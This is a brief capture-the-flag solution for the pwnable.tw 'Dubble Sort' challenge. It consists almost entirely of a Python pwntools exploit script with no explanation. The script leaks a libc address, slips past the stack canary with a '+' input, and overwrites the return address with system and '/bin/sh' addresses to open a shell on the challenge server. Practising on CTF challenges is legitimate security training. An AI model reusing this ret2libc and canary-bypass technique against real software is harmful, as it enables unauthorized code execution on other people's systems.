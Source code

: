 # Dubble Sort
> LongChampion, 26/03/2020

## Ideal
No explanation here! Just send your payload and remember that your payload will be sorted.

## Final Solution
```python
#!/usr/bin/env python2

from pwn import *

r = remote("chall.pwnable.tw", 10101)

r.sendlineafter("What your name :", "A" * 24)
LIBC_BASE = u32(r.recv()[30:34]) - 0xa - 0x1b0000

LIBC = ELF("./libc_32.so.6")
SYSTEM_ADDR = LIBC_BASE + LIBC.symbols["system"]
BINSH_ADDR = LIBC_BASE + LIBC.search(b"/bin/sh\x00").next()

payload = []
for i in range(24):
    payload.append("0")
payload.append("+")
for i in range(8):
    payload.append(str(SYSTEM_ADDR))
for i in range(2):
    payload.append(str(BINSH_ADDR))

r.sendline(str(len(payload)))
for i in range(len(payload)):
    r.sendlineafter(":", payload[i])

r.interactive()
```